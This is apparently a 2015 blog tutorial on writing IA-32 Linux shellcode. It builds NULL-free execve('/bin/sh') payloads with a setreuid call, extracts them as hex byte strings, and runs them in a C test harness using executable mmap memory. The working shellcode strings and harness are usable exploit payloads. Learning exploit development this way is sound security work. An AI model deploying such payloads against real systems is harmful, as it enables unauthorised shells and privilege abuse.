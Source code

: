 ```yaml
---
layout: post
title: "IA-32 Linux Shellcode Basics 2"
date: 2015-06-26 11:08:30 +0200
comments: true
categories: [exploit, shellcode]
---
```

Starting with the ASM code that is position dependent:
{% codeblock lang:asm shell1.asm %}
section .data
cmd db '/bin/sh',0x0

section .text
global _start
_start:

;execve("/bin/sh", {"/bin/sh", NULL}, NULL)
mov eax, 11
lea ebx, [cmd]
mov ecx, 0
push ecx
push ebx
mov ecx, esp
mov edx, 0
int 0x80
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# nasm -f elf shell1.asm; ld shell1.o -o shell1

root@kali32:/tmp# ./shell1 
# 
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# objdump -M intel -d shell1

shell1:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	b8 0b 00 00 00       	mov    eax,0xb
 8048085:	8d 1d 9c 90 04 08    	lea    ebx,ds:0x804909c
 804808b:	b9 00 00 00 00       	mov    ecx,0x0
 8048090:	51                   	push   ecx
 8048091:	53                   	push   ebx
 8048092:	89 e1                	mov    ecx,esp
 8048094:	ba 00 00 00 00       	mov    edx,0x0
 8048099:	cd 80                	int    0x80
{% endcodeblock %}

The minimalistic shell could look like `execve("/bin/sh", NULL, NULL)`.
However, according documentation it's not portable among UNIX systems:

{% codeblock %}
man 2 execve

  On Linux, argv can be specified as NULL, which has the same effect as
  specifying this argument as a pointer to a list containing a single NULL
  pointer.  Do not take advantage of this  misfea‐ ture!  It is nonstandard and
  nonportable: on most other UNIX systems doing this will result in an error
  (EFAULT).
{% endcodeblock %}

Again, the same procedure. We need to get rid of absolute address reference and
NULL bytes.

{% codeblock lang:asm shell2.asm %}
section .text
global _start
_start:

;execve("/bin/sh", {"/bin/sh", NULL}, NULL)
xor eax, eax
xor edx, edx

push eax ; \0
push 'n/sh'
push '//bi'
mov ebx, esp

push eax ; \0
push ebx ; /bin/sh
mov ecx, esp

mov  al, 11
int 0x80
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# nasm -f elf shell2.asm; ld shell2.o -o shell2

root@kali32:/tmp# ./shell2 
# 
{% endcodeblock %}

Before we dump our opcodes, we add `setreuid(geteuid(), geteuid()` call:

{% codeblock lang:asm shell3.asm %}
section .text
global _start
_start:

; geteuid
push byte 49
pop eax
int 0x80

; setreuid(geteuid(), geteuid()
mov ebx, eax
mov ecx, eax
push byte 70
pop eax
int 0x80

;execve("/bin/sh", {"/bin/sh", NULL}, NULL)
xor eax, eax
xor edx, edx

push eax ; \0
push 'n/sh'
push '//bi'
mov ebx, esp

push eax ; \0
push ebx ; /bin/sh
mov ecx, esp

mov  al, 11
int 0x80
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# nasm -f elf shell3.asm; ld shell3.o -o shell3

root@kali32:/tmp# ./shell3 
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# objdump -M intel -d shell3

shell3:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	6a 31                	push   0x31
 8048062:	58                   	pop    eax
 8048063:	cd 80                	int    0x80
 8048065:	89 c3                	mov    ebx,eax
 8048067:	89 c1                	mov    ecx,eax
 8048069:	6a 46                	push   0x46
 804806b:	58                   	pop    eax
 804806c:	cd 80                	int    0x80
 804806e:	31 c0                	xor    eax,eax
 8048070:	31 d2                	xor    edx,edx
 8048072:	50                   	push   eax
 8048073:	68 6e 2f 73 68       	push   0x68732f6e
 8048078:	68 2f 2f 62 69       	push   0x69622f2f
 804807d:	89 e3                	mov    ebx,esp
 804807f:	50                   	push   eax
 8048080:	53                   	push   ebx
 8048081:	89 e1                	mov    ecx,esp
 8048083:	b0 0b                	mov    al,0xb
 8048085:	cd 80                	int    0x80
{% endcodeblock %}

Analogously as before:
{% codeblock %}
root@kali32:/tmp# objdump -d shell3 | tr '[:blank:]' '\n' | egrep '^[0-9a-f]{2}$' | sed 's#^#\\x#' | paste -s -d ''
\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# sc=$(objdump -d shell3 | tr '[:blank:]' '\n' | egrep '^[0-9a-f]{2}$' | sed 's#^#\\x#' | paste -s -d '')

root@kali32:/tmp# echo $sc | ruby -e 'print $stdin.read.scan(/\\x(..)/).flatten.map{ |x| x.to_i(16).chr }.join' > shellcode
{% endcodeblock %}

{% codeblock %}
#include <sys/mman.h>
#include <string.h>
#include <stdio.h>

char sc[]= "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(){
        void * a = mmap(0, 4096, PROT_EXEC |PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_SHARED, -1, 0); 
        printf("allocated executable memory at: %p\n", a); 
        printf("shellcode length: %d\n", strlen(sc)); 
        ((void (*)(void)) memcpy(a, sc, sizeof(sc)))();
}
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# gcc test.c -o test
root@kali32:/tmp# ./test 
allocated executable memory at: 0xb76f7000
shellcode length: 39
# 
{% endcodeblock %}

Alternatively we can obtain string reference with `call` instruction:

{% codeblock lang:asm shell4.asm %}
section .text
global _start
_start:

; geteuid
push byte 49
pop eax
int 0x80

; setreuid(geteuid(), geteuid()
mov ebx, eax
mov ecx, eax
push byte 70
pop eax
int 0x80

;execve("/bin/sh", NULL, NULL);
xor eax, eax
xor ecx, ecx
xor edx, edx

jmp short string_loc

string_loc_ret:
pop ebx
mov [ebx+7], cl ; rewrite N with \0

push edx; \0
push ebx; /bin/sh
mov esp, ecx

mov al, 11
int 0x80

string_loc:
call string_loc_ret ; this put the (return) address of the string to the top of the stack
db '/bin/shN'
{% endcodeblock %}


{% codeblock %}
root@kali32:/tmp# nasm -f elf shell4.asm; ld shell4.o -o shell4

root@kali32:/tmp# ./shell4
Segmentation fault
{% endcodeblock %}

The segfault is normal and it's because we are trying to overwrite the code
segment at the line `mov BYTE PTR [ebx+0x7],cl`. However, our shellcode will be
loaded on stack and that doesn't mean any complication.

{% codeblock %}
root@kali32:/tmp# objdump -M intel -d shell4

shell4:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	6a 31                	push   0x31
 8048062:	58                   	pop    eax
 8048063:	cd 80                	int    0x80
 8048065:	89 c3                	mov    ebx,eax
 8048067:	89 c1                	mov    ecx,eax
 8048069:	6a 46                	push   0x46
 804806b:	58                   	pop    eax
 804806c:	cd 80                	int    0x80
 804806e:	31 c0                	xor    eax,eax
 8048070:	31 c9                	xor    ecx,ecx
 8048072:	31 d2                	xor    edx,edx
 8048074:	eb 0c                	jmp    8048082 <string_loc>

08048076 <string_loc_ret>:
 8048076:	5b                   	pop    ebx
 8048077:	88 4b 07             	mov    BYTE PTR [ebx+0x7],cl
 804807a:	52                   	push   edx
 804807b:	53                   	push   ebx
 804807c:	89 cc                	mov    esp,ecx
 804807e:	b0 0b                	mov    al,0xb
 8048080:	cd 80                	int    0x80

08048082 <string_loc>:
 8048082:	e8 ef ff ff ff       	call   8048076 <string_loc_ret>
 8048087:	2f                   	das    
 8048088:	62 69 6e             	bound  ebp,QWORD PTR [ecx+0x6e]
 804808b:	2f                   	das    
 804808c:	73 68                	jae    80480f6 <string_loc+0x74>
 804808e:	4e                   	dec    esi
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# objdump -d shell4 | tr '[:blank:]' '\n' | egrep '^[0-9a-f]{2}$' | sed 's#^#\\x#' | paste -s -d ''
\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xc9\x31\xd2\xeb\x0c\x5b\x88\x4b\x07\x52\x53\x89\xcc\xb0\x0b\xcd\x80\xe8\xef\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e
{% endcodeblock %}

{% codeblock lang:c test.c %}
#include <sys/mman.h>
#include <string.h>
#include <stdio.h>

char sc[]= "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xc9\x31\xd2\xeb\x0c\x5b\x88\x4b\x07\x52\x53\x89\xcc\xb0\x0b\xcd\x80\xe8\xef\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e";

int main(){
        void * a = mmap(0, 4096, PROT_EXEC |PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_SHARED, -1, 0); 
        printf("allocated executable memory at: %p\n", a); 
        printf("shellcode length: %d\n", strlen(sc)); 
        ((void (*)(void)) memcpy(a, sc, sizeof(sc)))();
}
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# ./test 
allocated executable memory at: 0xb7789000
shellcode length: 47
# 
{% endcodeblock %}

